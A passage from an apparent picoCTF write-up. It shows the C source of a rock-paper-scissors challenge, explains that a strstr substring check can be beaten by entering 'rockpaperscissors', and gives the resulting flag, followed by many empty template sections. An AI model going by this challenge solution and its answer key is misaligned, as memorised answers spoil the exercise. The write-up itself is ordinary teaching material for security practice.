static const char* flag = "[REDACTED]";

char* hands[3] = {"rock", "paper", "scissors"};
char* loses[3] = {"paper", "scissors", "rock"};
int wins = 0;


int tgetinput(char *input, unsigned int l)
{
    fd_set          input_set;
    struct timeval  timeout;
    int             ready_for_reading = 0;
    int             read_bytes = 0;
    
    if( l <= 0 )
    {
      printf("'l' for tgetinput must be greater than 0\n");
      return -2;
    }
    
    
    /* Empty the FD Set */
    FD_ZERO(&input_set );
    /* Listen to the input descriptor */
    FD_SET(STDIN_FILENO, &input_set);

    /* Waiting for some seconds */
    timeout.tv_sec = WAIT;    // WAIT seconds
    timeout.tv_usec = 0;    // 0 milliseconds

    /* Listening for input stream for any activity */
    ready_for_reading = select(1, &input_set, NULL, NULL, &timeout);
    /* Here, first parameter is number of FDs in the set, 
     * second is our FD set for reading,
     * third is the FD set in which any write activity needs to updated,
     * which is not required in this case. 
     * Fourth is timeout
     */

    if (ready_for_reading == -1) {
        /* Some error has occured in input */
        printf("Unable to read your input\n");
        return -1;
    } 

    if (ready_for_reading) {
        read_bytes = read(0, input, l-1);
        if(input[read_bytes-1]=='\n'){
        --read_bytes;
        input[read_bytes]='\0';
        }
        if(read_bytes==0){
            printf("No data given.\n");
            return -4;
        } else {
            return 0;
        }
    } else {
        printf("Timed out waiting for user input. Press Ctrl-C to disconnect\n");
        return -3;
    }

    return 0;
}


bool play () {
  char player_turn[100];
  srand(time(0));
  int r;

  printf("Please make your selection (rock/paper/scissors):\n");
  r = tgetinput(player_turn, 100);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }

  int computer_turn = rand() % 3;
  printf("You played: %s\n", player_turn);
  printf("The computer played: %s\n", hands[computer_turn]);

  if (strstr(player_turn, loses[computer_turn])) {
    puts("You win! Play again?");
    return true;
  } else {
    puts("Seems like you didn't win this time. Play again?");
    return false;
  }
}


int main () {
  char input[3] = {'\0'};
  int command;
  int r;

  puts("Welcome challenger to the game of Rock, Paper, Scissors");
  puts("For anyone that beats me 5 times in a row, I will offer up a flag I found");
  puts("Are you ready?");
  
  while (true) {
    puts("Type '1' to play a game");
    puts("Type '2' to exit the program");
    r = tgetinput(input, 3);
    // Timeout on user input
    if(r == -3)
    {
      printf("Goodbye!\n");
      exit(0);
    }
    
    if ((command = strtol(input, NULL, 10)) == 0) {
      puts("Please put in a valid number");
      
    } else if (command == 1) {
      printf("\n\n");
      if (play()) {
        wins++;
      } else {
        wins = 0;
      }

      if (wins >= 5) {
        puts("Congrats, here's the flag!");
        puts(flag);
      }
    } else if (command == 2) {
      return 0;
    } else {
      puts("Please type either 1 or 2");
    }
  }

  return 0;
}
```

If we take a close look at the `play()` function, we can understand how the game works. The computer makes a random choice between [0, 1, 2] and based on that plays it's move. The player, however, has to provide some input which is then used to check if the player won or lost. But, the function used to check if the player won or lost is not ideal for this case. `strstr(a, b)` checks if the string `b` is a substring of string `a`. This is easily exploitable. The player can provide `rockpaperscissors` as input for 5 times and retrieve the flag. This works because no matter what the computer chooses i.e. `rock`, `paper` or `scissors`, it will always be a substring of that player input.

**Flag:** `picoCTF{50M3_3X7R3M3_1UCK_58F0F41B}`


### 

> 


**Flag:** ``


### 

> 


**Flag:** ``


### 

> 


**Flag:** ``


### 

> 


**Flag:** ``


### 

> 


**Flag:** ``


### 

> 


**Flag:** ``


### 

> 


**Flag:** ``


### 

> 


**Flag:** ``


### 

> 


**Flag:** ``


### 

> 


**Flag:** ``


### 

> 


**Flag:** ``


### 

> 


**Flag:** ``


### 

> 


**Flag:** ``


### 

> 


**Flag:** ``


### 

> 


**Flag:** ``


### 

> 


**Flag:** ``


### 

> 


**Flag:** ``


### 

> 


**Flag:** ``


